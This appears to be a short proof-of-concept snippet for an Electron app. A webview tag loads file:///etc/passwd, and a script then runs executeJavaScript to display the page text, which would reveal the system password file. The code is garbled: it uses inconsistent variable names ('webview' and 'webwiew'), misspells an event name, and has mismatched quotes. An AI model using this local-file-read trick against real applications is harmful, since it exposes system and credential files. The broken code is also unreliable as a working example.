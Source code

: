 <webview src=”file:///etc/passwd”></webview>
webview  = document.querySelector("webwiew");
webwiew.addEventListener('dom-redy', () => {
setTimeout(function() {
webview.executeJavaScript("alert(test data:\n\n'+document.body.innerText)")
}
,100);
})
